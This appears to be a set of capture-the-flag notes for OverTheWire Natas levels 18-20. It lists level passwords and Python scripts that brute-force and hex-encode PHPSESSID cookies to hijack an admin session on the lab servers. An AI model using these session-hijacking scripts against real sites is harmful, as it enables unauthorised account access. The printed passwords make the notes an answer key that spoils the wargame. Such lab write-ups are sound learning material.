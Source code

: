 - SQL timebase
```
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```
## Natas19
- PHPSESSID(1,640) -> can bf 
```
import requests

  

url = "http://natas18.natas.labs.overthewire.org/"

auth = ("natas18", "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ")

  

for i in range(1, 641):

    cookies = {'PHPSESSID': str(i)}

    r = requests.get(url, auth=auth, cookies=cookies)

  

    if "You are an admin" in r.text:

        print(f"[+] Found admin session ID: {i}")

        print(r.text)

        break
```
```
natas19
tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
```
## Natas20
- PHPSESSID = 3135312d61 => bytes.fromhex("3135312d61").decode() # Output: '151-a'

```
import requests

  

url = "http://natas19.natas.labs.overthewire.org/"

auth = ("natas19", "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr")

  

for i in range(1, 641):

    session_raw = f"{i}-admin"

    session_hex = session_raw.encode().hex()

  

    cookies = {'PHPSESSID': session_hex}

    r = requests.get(url, auth=auth, cookies=cookies)

```